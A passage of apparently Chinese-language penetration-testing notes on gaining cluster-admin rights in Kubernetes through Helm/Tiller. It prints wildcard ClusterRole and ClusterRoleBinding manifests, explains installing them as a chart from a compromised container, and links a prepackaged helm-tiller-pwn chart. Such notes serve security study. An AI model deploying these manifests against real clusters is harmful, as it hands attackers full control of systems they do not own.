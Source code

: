 创建两个资源：

    apiVersion: rbac.authorization.k8s.io/v1
    kind: ClusterRole
    metadata:
      name: all-your-base
    rules:
      - apiGroups: ["*"]
        resources: ["*"]
        verbs: ["*"]
    ---
    apiVersion: rbac.authorization.k8s.io/v1
    kind: ClusterRoleBinding
    metadata:
      name: belong-to-us
    roleRef:
      apiGroup: rbac.authorization.k8s.io
      kind: ClusterRole
      name: all-your-base
    subjects:
      - kind: ServiceAccount
        namespace: {{ .Values.namespace }}
        name: {{ .Values.name }}

将它们生成为对应的chart，并下载到被攻击的容器中，之后使用Client进行安装，配置之后便可以进行高权限操作

4、生成charts并安装的过程：

在 Helm 中，可以使用 `helm create` 命令创建一个新的 Chart，并使用 `helm package` 命令将 Chart 打包成一个 `.tgz` 文件，可以在其他机器上使用 `helm install` 命令来安装该 Chart。

以下是一个简单的示例，演示如何创建一个名为 `mychart` 的 Chart 并将其打包：

1.  创建 Chart，该命令将会在当前目录下创建一个 mychart 目录，包含 Chart 所需的模板和示例文件。
    
    在命令行中执行以下命令，创建一个名为 `mychart` 的 Chart：$ helm create mychart
    
2.  修改 Chart
    
    在 `mychart` 目录中，可以根据需要修改 `Chart.yaml`、`values.yaml` 和 `templates` 目录中的模板文件，以定义 Chart 所包含的应用程序、服务和资源等。
    
3.  打包 Chart，该命令将会在当前目录下生成一个名为 mychart-x.x.x.tgz 的文件，其中 x.x.x 表示 Chart 的版本号。
    
    在命令行中执行以下命令，将 Chart 打包成一个 `.tgz` 文件：$ helm package mychart
    
4.  下载 Chart：$ helm install mychart mychart-x.x.x.tgz
    
    可以将生成的 .tgz 文件复制到其他机器上，然后使用 helm install 命令来安装 Chart。例如，执行以下命令将 Chart 安装到 Kubernetes 集群中；
    
    其中 mychart 是 Chart 的名称，mychart-x.x.x.tgz 是 Chart 打包后的文件名。
    

直接使用 [https://github.com/Ruil1n/helm-tiller-pwn](https://github.com/Ruil1n/helm-tiller-pwn) 这里打包好的文件就行

如果有报错提示，需要修改charts打包文件中的模板内容，为支持的版本

错误提示通常是由于 Kubernetes API Server 不支持 [rbac.authorization.k8s.io/v1beta1](http://rbac.authorization.k8s.io/v1beta1) 版本的 ClusterRole 和 ClusterRoleBinding 对象引起的。
